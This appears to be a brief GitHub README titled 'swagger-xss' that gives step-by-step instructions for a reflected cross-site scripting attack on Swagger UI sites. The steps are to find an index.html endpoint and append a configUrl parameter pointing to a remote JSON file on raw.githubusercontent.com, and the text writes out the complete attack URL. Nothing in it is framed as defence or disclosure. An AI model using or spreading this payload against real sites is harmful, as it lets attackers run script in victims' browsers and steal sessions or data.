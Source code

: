 # swagger-xss

# Exploit 

if a domain is is running swagger ,
1. first fuzz with this wordlists
2. if site have some endpoint like this
https://domain.ltd/index.html

3. payload : ?configUrl=https://raw.githubusercontent.com/NotSecure-In/swagger-xss/main/test.json

4. so entire rxss will look like this
5. https://domain.ltd/index.html?configUrl=https://raw.githubusercontent.com/NotSecure-In/swagger-xss/main/test.json
